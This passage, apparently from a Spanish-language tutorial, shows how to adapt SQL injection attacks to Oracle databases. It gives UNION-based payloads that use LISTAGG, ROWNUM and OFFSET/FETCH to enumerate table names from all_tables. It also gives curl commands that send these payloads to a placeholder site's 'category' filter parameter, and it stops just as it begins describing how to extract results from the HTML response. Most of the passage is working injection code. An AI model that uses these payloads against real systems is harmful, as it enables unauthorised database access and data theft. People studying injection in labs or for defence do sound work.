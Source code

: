 **Explicación:** `ROW_NUMBER()` nos permite filtrar por número de fila sin depender de `OFFSET/FETCH`.


---

## Agregación de varias filas en una sola (equivalente a `GROUP_CONCAT`)

En Oracle la función equivalente para concatenar valores de múltiples filas es `LISTAGG`.

```sql
' UNION SELECT 1, (SELECT LISTAGG(table_name, ',') WITHIN GROUP (ORDER BY table_name) FROM all_tables WHERE owner = 'APP_SCHEMA') FROM DUAL--
```

**Explicación:** `LISTAGG(col, ',') WITHIN GROUP (ORDER BY col)` concatena valores de varias filas en una sola cadena. Si la lista es muy larga puede truncarse; en Oracle 12c+ existen otras técnicas (CLOBs, `XMLAGG`) para esquemas grandes.


---

## `curl` (adaptación de ejemplos)

A continuación mostramos cómo adaptar los ejemplos de `curl` para Oracle. La estructura de la URL sigue siendo la misma; lo que cambia es la forma de paginar o de obtener una sola fila.

### 1. Diferencia clave

En Oracle sustituimos `LIMIT x OFFSET y` por `OFFSET y ROWS FETCH NEXT x ROWS ONLY` (si la versión lo soporta) o por filtros con `ROWNUM` o `ROW_NUMBER()`.

### 2. Un `curl` simple (obtener una fila concreta)

Si queremos pedir la primera tabla del listado (offset 0) usando una inyección `UNION` que devuelve 2 columnas (por ejemplo `1, table_name`) y asumimos Oracle 12c+:

```bash
curl -s -G --data-urlencode "category=' UNION SELECT 1, table_name FROM all_tables OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY -- " "https://DOMINIO/filter"
```

Si no tenemos `OFFSET/FETCH`, usamos `ROWNUM = 1` en una subconsulta:

```bash
curl -s -G --data-urlencode "category=' UNION SELECT 1, (SELECT table_name FROM (SELECT table_name FROM all_tables WHERE owner='APP_SCHEMA') WHERE ROWNUM = 1) FROM DUAL -- " "https://DOMINIO/filter"
```

> Nota: usamos `--get --data-urlencode` para evitar problemas con espacios y caracteres especiales en la shell.

### 3. Procesar la salida (filtrar la celda HTML)

Si la página devuelve la tabla dentro de `<td>` y queremos extraer solo el texto:
